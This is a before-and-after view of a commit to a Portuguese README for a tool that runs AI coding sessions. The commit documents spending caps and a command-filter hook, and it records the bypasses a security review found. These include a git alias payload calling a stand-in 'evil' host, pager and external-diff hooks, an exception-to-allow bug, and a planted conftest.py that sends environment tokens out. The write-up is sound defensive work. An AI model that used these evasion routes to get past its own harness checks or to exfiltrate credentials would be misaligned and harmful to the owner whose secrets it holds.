

Before and after one commit to garcia-goncalves/dervs, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 99% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs(fila): a documentacao agora descreve as barreiras que existem
Sao QUATRO, e nao tres: entrou "a sessao nao recebe segredo do ambiente".
A barreira 3 mudou de mecanismo — o `git` passou a ter lista BRANCA de
subcomando, e o README explica o furo medido que obrigou a troca em vez de so
anunciar a regra nova.

O teto tambem estava descrito errado: "US$ 3 por item" era verdade sobre o
codigo de ontem. Hoje o teto do dia limita o teto da sessao, e o botao
"Resolver" conta para o teto.

Documentacao que descreve o software de ontem mente com autoridade.

Co-Authored-By: Claude Opus 5 (1M context) <noreply@anthropic.com>

```diff
--- a/README.md
+++ b/README.md
@@ -142,7 +142,13 @@ Nenhuma delas é uma instrução no texto do pedido. Instrução em texto é sug
 trava é código que recusa.
 
 1. **Teto de R$ 50 por dia.** No ponto exato do teto já não cabe mais um item.
-   "Só mais um" é como conta de R$ 300 acontece.
+   "Só mais um" é como conta de R$ 300 acontece. O teto do dia limita o teto
+   **da sessão** (`fila.teto_da_sessao`): com R$ 49 gastos, a sessão sai com
+   teto de R$ 1, e não com os R$ 15,42 de sempre. Sem isso — e era assim até
+   25/08/2026 — a fila conferia o teto *antes* do item e o dia podia fechar
+   em R$ 64 sem nunca ter "estourado". O botão **Resolver** também conta:
+   ele dispara a mesma sessão e o custo dele entra na tabela `gasto`, que
+   `banco.gasto_entre` soma junto com a fila.
 2. **Anti-laço: duas tentativas por item**, e falha de hoje não volta hoje. Uma
    correção que não pega vira torneira aberta de madrugada.
 3. **Teste apagado.** Antes de publicar, o painel lê o diff. Apagou um arquivo
@@ -566,7 +572,8 @@ pendência tem uma ação".
 
 Medido nesta máquina em 24/08/2026: com `--max-budget-usd 0.10`, a execução
 terminou custando **US$ 0,44548** — estouro de 4,5×. A flag não é uma cerca; é
-um pedido. O teto adotado é **US$ 3** por execução, e a única garantia real de
+um pedido. O teto adotado é **US$ 3** por execução — ou o que sobra do teto do dia,
+se for menos (`fila.teto_da_sessao`) — e a única garantia real de
 parar é o botão **Parar**, que mata a árvore de processos e espera 5 segundos
 pela confirmação. Se não confirmar, a tela diz que **não** confirmou — não finge
 que parou.
@@ -657,11 +664,39 @@ barreiras foram postas em 25/08/2026, em ordem de importância:
 3. **Todo comando passa por uma lista antes de rodar** (`barreira.py`, um hook
    `PreToolUse`). Medido numa sessão de verdade em 25/08/2026, por US$ 0,33:
    `git push origin main` e `curl http://example.com` **barrados** com a frase
-   em português; `git status --porcelain` rodou. Lista branca de programas, `git push`/`remote`/`config`
-   barrados por nome, nada que fale com a rede, nada que vire interpretador de
-   texto solto (`python -c`, `node -e`, `bash -c`), nenhum caminho absoluto ou
-   com `..`, e `.git/` intocável. Recusa sai com código 2 e a frase em
-   português chega à sessão.
+   em português; `git status --porcelain` rodou. Lista branca de programas, nada que vire
+   interpretador de texto solto (`python -c`, `node -e`, `bash -c`), nenhum
+   caminho absoluto ou com `..`, e `.git/` intocável. Recusa sai com código 2
+   e a frase em português chega à sessão.
+
+   **O `git` tem lista BRANCA de subcomando, e a razão é um furo medido.** A
+   revisão de segurança de 25/08/2026 encontrou, e a medição confirmou, que
+   `git -c alias.pwn='!curl http://evil' pwn` passava **liberado** pela lista
+   negra: o git executa o valor do alias por um shell que a barreira nunca
+   leria, e de dentro dele `git remote add` mais `git push` alcançavam o
+   GitHub com a credencial do dono. A mesma porta existia em `core.pager`,
+   `core.fsmonitor`, `diff.external` e `--exec-path`. Lista negra de `git`
+   sempre perde: cada versão inventa capacidade nova, e a lista só protege o
+   que já conhece.
+
+   Da mesma revisão, três furos da mesma família: prefixo `NOME=valor` antes
+   do comando (`GIT_EXTERNAL_DIFF=x git diff` rodava `x`), caminho relativo
+   ao drive do Windows (`C:segredo.txt` escapava do teste de caminho
+   absoluto, que exigia a barra) e — o pior — **bug na barreira abria a
+   porta**: só o código 2 barra, e exceção não tratada saía com código 1, que
+   o Claude Code trata como liberado. `decidir` é um interpretador de linha
+   de comando escrito à mão; ele *vai* ter bug. Agora qualquer exceção
+   vira código 2.
+
+4. **A sessão não recebe segredo do ambiente** (`execucao.ambiente_da_filha`).
+   O `Popen` da filha não passava `env=`, então ela herdava o ambiente inteiro
+   do painel. Como a sessão é instruída a rodar a suíte do projeto-alvo, um
+   `conftest.py` plantado lê `os.environ` e manda tudo embora por socket — e a
+   barreira barra `curl` pelo **nome**, não contém rede. `GH_TOKEN` e
+   `GITHUB_TOKEN` são os que mais importam: com eles a sessão alcança o GitHub
+   sem precisar de `git push` nenhum. `ANTHROPIC_API_KEY` vai junto de
+   propósito, porque sem ela a sessão não roda — está escrito no código e tem
+   teste, para ninguém descobrir por acidente.
 
 **E o que continua não sendo isolado, dito sem enfeite:** rodar teste É rodar
 código arbitrário — a suíte do projeto é código de terceiro executando com todos
```
Also changed, not shown: other parts of README.md (+3 -3 lines).
